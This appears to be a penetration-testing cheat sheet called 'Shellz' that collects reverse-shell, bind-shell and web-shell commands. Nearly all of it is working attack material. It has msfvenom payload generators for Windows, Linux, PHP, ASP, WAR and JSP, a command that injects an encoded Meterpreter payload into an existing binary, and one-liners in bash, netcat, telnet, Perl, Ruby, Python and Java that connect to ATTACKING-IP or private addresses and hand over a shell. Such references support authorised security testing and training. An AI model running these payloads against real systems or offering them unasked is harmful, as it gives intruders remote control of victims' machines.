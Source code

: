 # Shellz



This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
[https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

### Msfvenom <a id="msfvenom"></a>

There is an important difference between non-staged and staged payload. A **non-staged** shell is sent over in one block. You just send shell in one stage. This can be caught with metasploit multi-handler. But also with netcat.

**staged** shells send them in turn. This can be useful for when you have very small buffer for your shellcode, so you need to divide up the payload. Meterpreter is a staged shell. First it sends some parts of it and sets up the connection, and then it sends some more. This can be caught with metasploit multi-handler but not with netcat.

#### Windows <a id="windows"></a>

**Meterpreter**

**Standard meterpreter**

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -o shell_reverse.exe
```

```text
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```text
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.101 LPORT=443 -f exe -o met_https_reverse.exe
```

**Non-staged payload**

```text
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```text
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

**Staged payload**

```text
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe
```

This must be caught with metasploit. It does not work with netcat.

```text
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

#### Inject payload into binary <a id="inject-payload-into-binary"></a>

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

### Linux <a id="linux"></a>

#### Binary <a id="binary"></a>

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf
```

#### Bash <a id="bash"></a>

```text
0<&196;exec 196<>/dev/tcp/192.168.1.101/80; sh <&196 >&196 2>&196
```

```text
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
```

#### Php <a id="php"></a>

```text
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Netcat <a id="netcat"></a>

**Bind shell**

```text
#Linux
nc -vlp 5555 -e /bin/bash
nc 192.168.1.101 5555

# Windows
nc.exe -nlvp 4444 -e cmd.exe
```

**Reverse shell**

```text
# Linux
nc -lvp 5555
nc 192.168.1.101 5555 -e /bin/bash

# Windows
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe
```

**With -e flag**

```text
nc -e /bin/sh ATTACKING-IP 80
```

```text
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```text
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

Upgrade Netcat shell to an interactive: [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

#### Ncat <a id="ncat"></a>

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```text
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

#### Telnet <a id="telnet"></a>

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

#### Perl <a id="perl"></a>

```text
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Ruby <a id="ruby"></a>

```text
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Java <a id="java"></a>

```text
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### Python <a id="python"></a>

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Web-shells - Platform Independent <a id="web-shells---platform-independent"></a>

#### PHP <a id="php"></a>

This php-shell is OS-independent. You can use it on both Linux and Windows.

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```

#### ASP <a id="asp"></a>

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp
```

#### WAR <a id="war"></a>

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
```

#### JSP <a id="jsp"></a>

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp
```

